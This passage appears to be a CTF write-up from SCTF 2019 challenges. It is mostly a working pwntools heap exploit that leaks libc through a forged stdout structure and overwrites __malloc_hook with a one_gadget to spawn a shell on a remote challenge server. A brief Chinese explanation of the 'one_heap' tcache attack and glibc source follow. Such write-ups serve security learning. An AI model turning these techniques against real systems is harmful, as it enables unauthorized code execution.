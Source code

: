```python
p=remote("132.232.100.67",10004)
p.readuntil("Mmap: ")
mmap=int(p.readline()[:-1],16)
heap=add(0x400)-0x10#0
add(0x88)#1
add(0x88)#2
free(0)
add(0x18)
edit(0,"A"*0x18)
add(0x88)#3
add(0x68)#4
free(3)
free(1)
add(0x200-8)#1
free(4)
add(0x88)#3
free(3)
add(0x98)#3
edit(3,"A"*0x88+p64(0x71)+'\xdd\x25\n')
add(0x68)#4
add(0x68)#5
edit(5,"\x00"*(0x43-16)+p64(0xfbad1800)+"\x00"*0x18+'\x00\n')
p.read(0x40)
base=u64(p.read(8))-(0x7ffff7dd2600-0x7ffff7a0d000)
log.info(hex(base))

libc.address=base
free(4)
free(3)
add(0x98)#3
edit(3,"A"*0x88+p64(0x71)+p64(libc.sym['__malloc_hook']-35)+'\n')
add(0x68)#4
add(0x68)#6
one=base+0xf02a4
edit(6,'\x00'*19+p64(one)+'\n')

#gdb.attach(p)
free(6)
p.interactive()
#need 47:29:35
#(2019-06-26)
```

# one_heap
[binary][4]
挺有趣的因为这个知识点之前没遇过，所以挺考验漏洞利用能力的.
相关知识点`tcache`仔细看一下源码`tcache`部分对照着`heap`开始部分就可以看清楚了
主要是攻击`tcache`之后`free`,可以得到libc内地址进而修改`tcache-list`完成攻击。
```python
#if USE_TCACHE
              /* While we're here, if we see other chunks of the same size,
                 stash them in the tcache.  */
              size_t tc_idx = csize2tidx (nb);
              if (tcache && tc_idx < mp_.tcache_bins)
                {
                  mchunkptr tc_victim;
                  /* While bin not empty and tcache not full, copy chunks.  */
                  while (tcache->counts[tc_idx] < mp_.tcache_count
                         && (tc_victim = *fb) != NULL)
                    {
                      if (SINGLE_THREAD_P)
                        *fb = tc_victim->fd;
```

[1]: https://github.com/n132/Watermalon/tree/master/Sctf_2019/easy-heap
[2]: https://n132.github.io/2019/04/11/2019-04-11-Off-by-one/
[3]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[4]: https://github.com/n132/Watermalon/tree/master/Sctf_2019/one_heap
[5]: https://github.com/n132/Watermalon/tree/master/Sctf_2019/two_heap
[6]: https://www.xctf.org.cn/library/details/e79537ac55b532b974acc27ae514480068344dca/